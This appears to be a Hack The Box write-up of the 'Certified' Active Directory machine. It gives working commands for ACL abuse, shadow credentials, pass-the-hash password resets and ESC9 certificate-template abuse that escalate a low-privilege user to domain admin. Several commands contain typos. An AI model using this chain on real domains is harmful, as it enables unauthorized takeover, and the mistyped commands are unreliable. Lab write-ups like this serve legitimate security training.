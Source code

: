 Started with a nmap scan
```
53 DNS
88 Kerberos
135
139
389 LDAP
445
636 LDAP
3268 LDAP
3269 LDAP
5985 
```
Domain `certified.htb` Hostname `DC01` This is a assumed breach so we have creds `judith.mader:judith09` 
We can go ahead and get bloodhound data with rusthound `rustchoud-ce --domain certified.htb -u juduth.mader -p judith09 -z` 
And we have WriteOwner over the management group so first we need to edit the ownership of the group and set it to us `bloodyAD --host 10.10.11.41 -d "certified.htb" -u "judith.mader" -p judith09 set owner management judith.mader` now we need to give us full control over the target management group `impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'judith.mader' -target management "certified.htb"/"judith.mader":"judith09"` now we add ourselves to the group `net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%'judith09' -S dc01.certified.htb` and now management has GenericWrite over the `management_svc` user and we can use pywhisker to do shadow creds `python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add` now we have a pfx file we can use certipy to auth and get a NTLM hash `certipy-ad auth -pfx 'b7tI8Jae.pfx' -password 51rSRuXt6n8KVDHFH2aW -dc-ip 10.10.11.41 -domain certified.htb -username management_svc` and now we have the NTLM hash for this account and we can winrm into this account and get the user flag this account also has GenericAll over the `ca_operator` user and we can pass the hash to change there login `pth-net rpc password "ca_operator" "newP@ssword2022" -U "certified.htb"/"management_svc"%"LMHASH":"NTHASH" -S 10.10.11.41` now we own the `ca_operator` user now we can use certipy to check for vulnerable templates since this user has no outbound `certipy-ad find -u ca_operator -p 'newP@ssword2022' -taget certified.htb -text -stdout -vulnerable` and we got ESC9 vulnerability since we all ready did shadow creds we have the hash `cetipy-ad account update -username management_svc@certified.htb -hashes hash -user CA_operator -upn Administrator` Now we need to request the admin cert 
`certipy-ad req -username ca_opertaor@certified.htb -password newP@ssword2022 -target 10.10.11.41 -ca certified-DC01-CA -template CertifiedAuthentication` now we have the admin pfx file and Now we need to change the upn back 
`cetipy-ad account update -username management_svc@certified.htb -hashes hash -user CA_operator -upn ca_operator@certified.htb` now we can auth and get the hash `certipy-ad auth -pfx admin.pfx -dc-ip 10.10.11.41 -domain certified.htb` now we can winrm as admin and get the root flag 